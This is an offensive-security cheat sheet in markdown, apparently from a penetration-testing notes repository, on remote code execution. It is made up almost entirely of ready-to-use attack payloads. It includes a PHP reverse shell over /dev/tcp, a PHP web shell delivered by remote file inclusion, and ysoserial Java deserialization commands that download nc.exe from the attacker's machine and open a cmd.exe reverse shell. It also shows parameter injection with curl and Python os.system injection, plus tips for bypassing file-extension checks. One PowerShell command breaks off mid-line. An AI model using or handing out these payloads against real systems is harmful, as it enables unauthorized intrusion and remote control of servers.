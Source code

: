# Code Execution

## RCE



### Injection in parameters

```
curl http://<url>?<arg>=<cmd>    #GET
curl -G "http://<url>" --data-urlencode "<cmd>"    #GET encoded
```

When using url encoding with Windows paths the separators have to be escaped as \\\ for example `C:\\folder1\\folder2`

## Code Injection

### PHP

### Reverse shell

```php
<?php echo system("0<&196;exec 196<>/dev/tcp/{IP}/{PORT}; sh <&196 >&196 2>&196"); ?>    #rev shell
http://<url>/index.php?page=http://<local host>.com/<file>.txt
```

### Remote execution

```php
<?php echo shell_exec($_GET['cmd']);?>
http://<url>/index.php?page=http://<local host>.com/<file>.txt&cmd="<command>"
```

### Notes

* Append `%00` or `?` at the end of the URL to prevent the server from appending `.php` at the end of the string
* Save the malicious file as `.txt` or else it will be executed by your local server instead of the remote target

### Java

Exploit Java deserialization vulnerabilities using ysoserial (requires java installed on local machine). Can be downloaded from [here](https://github.com/frohoff/ysoserial)

#### Deploy payload

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 <command or payload>
```

#### NC upload and reverse shell

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powershell -c \"(new-object System.Net.WebClient).DownloadFile('http://<local ip>/nc.exe','C:\<path>\nc.exe')\""
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "C:\<target folder>\nc.exe -nv <local ip> <local port> -e cmd.exe"
```

#### Powershell

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powershell -c \"$c
```

### Python

```
os.system("<cmd>")
import os;print(str(os.popen('<cmd>').read()));
```

